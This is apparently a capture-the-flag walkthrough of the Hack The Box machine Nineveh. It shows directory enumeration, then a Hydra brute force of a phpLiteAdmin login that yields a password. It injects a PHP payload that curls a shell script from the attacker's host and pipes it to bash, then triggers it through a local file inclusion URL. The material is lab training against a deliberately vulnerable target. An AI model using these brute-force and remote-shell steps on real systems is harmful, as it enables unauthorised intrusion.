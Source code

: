 # 15 - HTTPS


# index.php

![](vx_images/4353422831360.png)


Let's run gobuster against it.

# Gobuster


```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh/gobuster]
└─$ cat https.log 
/index.html           (Status: 200) [Size: 49]
/db                   (Status: 301) [Size: 309] [--> https://nineveh.htb/db/]
/server-status        (Status: 403) [Size: 300]
/secure_notes         (Status: 301) [Size: 319] [--> https://nineveh.htb/secure_notes/]
```


# db/index.php
![](vx_images/2464990737220.png)

After trying admin, amrois as phpliteadmin password let's try bruteforcing the password because it's way more efficient.

# Hydra

```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form '/db/index.php:password=^PASS^&remember=yes&test=^USER^&login=Log+In&proc_login=true:Incorrect'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-29 15:19:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&test=^USER^&login=Log+In&proc_login=true:Incorrect
[STATUS] 225.00 tries/min, 225 tries in 00:01h, 14344174 to do in 1062:32h, 16 active
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-29 15:22:31
```
We get a default password 

Creds
* login: admin 
* password: password123

# phpLiteAdmin page

![](vx_images/3160834452900.png)


# Searchsploit

![](vx_images/771046578736.png)

# Exploit

![](vx_images/2275095479276.png)


# Let's create the database

![](vx_images/3094131054868.png)

Remember LFI requires the word **Notes**?

# Create a table
 ![](vx_images/5422214717498.png)

# Upload the reverse shell


![](vx_images/230772088323.png)

```php
<?php system("curl $IP/shell.sh | bash");?>
```

Single quotes didn't work for me

# File Inclusion for RCE
![](vx_images/4973270230666.png)
We can see the file name. Let's include it now.

```bash
http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes.php
```

# Initial Shell Access
![](vx_images/155396688352.png)